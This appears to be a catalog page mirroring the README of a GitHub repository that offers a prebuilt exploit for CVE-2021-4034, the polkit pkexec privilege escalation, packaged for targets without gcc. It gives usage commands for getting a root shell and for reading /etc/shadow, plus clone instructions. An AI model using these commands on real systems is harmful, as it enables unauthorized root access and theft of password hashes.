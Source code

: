 # CVE-2021-4034-NoGCC

CVE-2021-4034简单优化，以应对没有安装gcc和make的目标环境

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/EstamelGG](https://github.com/EstamelGG) |
| Url      | [https://github.com/EstamelGG/CVE-2021-4034-NoGCC](https://github.com/EstamelGG/CVE-2021-4034-NoGCC)                                               |
| Stars    | 68                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-4032-NoGCC

Test in:

Ubuntu 20.04.3 LTS

Kali 2021.4a

CentOS Linux release 7.5.1804




Use:

# 1:interactive shell

./cve-2021-4034-poc-x64

# 2:one-liner

./cve-2021-4034-poc-x64 "cat /etc/shadow"



## Get the content

```
git clone https://github.com/EstamelGG/CVE-2021-4034-NoGCC
cd CVE-2021-4034-NoGCC
```

{% embed url="https://github.com/EstamelGG/CVE-2021-4034-NoGCC" %}

<figure><img src="https://avatars.githubusercontent.com/u/46676047?v=4" alt=""><figcaption><p>EstamelGG</p></figcaption></figure>
